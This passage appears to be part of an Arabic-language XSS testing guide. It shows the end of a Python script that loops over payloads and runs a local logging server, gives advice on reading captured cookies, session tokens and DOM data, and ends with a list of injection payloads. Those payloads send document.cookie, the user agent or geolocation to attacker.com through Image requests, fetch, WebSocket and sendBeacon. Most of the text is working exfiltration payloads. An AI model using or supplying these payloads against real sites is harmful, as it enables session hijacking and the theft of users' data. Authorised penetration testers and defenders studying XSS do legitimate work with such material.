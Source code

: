   ```python
      "<script>new Image().src='http://localhost:8000/log?d='+encodeURIComponent(document.domain)</script>"
  ]

  print("ابدأ اختبار الحقن:")
  for payload in payloads:
      print(f"اختبار: {payload}")
      # يمكن إدخال الحقن يدويًا أو عبر أداة مثل Selenium
  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.
  - يُدرج الحقن يدويًا أو عبر أدوات (مثل Selenium) في نقاط الإدخال.
  - يسجل البيانات المستلمة في الخادم.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي ومراقبة البيانات.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن البيانات المستلمة في الخادم:
    - **ملفات تعريف الارتباط**: تحقق من وجود `sessionid` أو رموز الجلسة.
    - **محتوى DOM**: تحقق من النصوص أو العناصر المستخرجة.
    - **بيانات التخزين**: تحقق من الرموز أو بيانات المستخدم.
  - مثال: إذا تلقى الخادم `c=sessionid=abc123`， فهذا يؤكد نجاح استخراج ملفات تعريف الارتباط.
- **كيف يعمل**:
  - يتم تسجيل البيانات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد البيانات القابلة للاستخراج.

#### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<script>navigator.sendBeacon('http://attacker.com/log', document.cookie)</script>`).
  - جرب تقنيات إرسال أخرى (مثل FormData أو JSON).
  - اختبر استخراج بيانات أخرى (مثل `navigator.geolocation` للموقع).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<script>new Image().src='http://attacker.com/log?c='+encodeURIComponent(navigator.userAgent)</script>` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للبيانات.

---



1. استخراج ملفات تعريف الارتباط:
- <script>new Image().src='http://attacker.com/log?c='+encodeURIComponent(document.cookie)</script>: يرسل ملفات تعريف الارتباط كمعلمة URL.
- <img src="http://attacker.com/log?c=document.cookie">: يرسل ملفات تعريف الارتباط عبر طلب صورة.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.cookie})</script>: يرسل ملفات تعريف الارتباط عبر POST.
- <script>new WebSocket('ws://attacker.com').send(document.cookie)</script>: يرسل ملفات تعريف الارتباط عبر WebSocket.
- <script>navigator.sendBeacon('http://attacker.com/log', document.cookie)</script>: يرسل ملفات تعريف الارتباط بشكل غير متزامن.
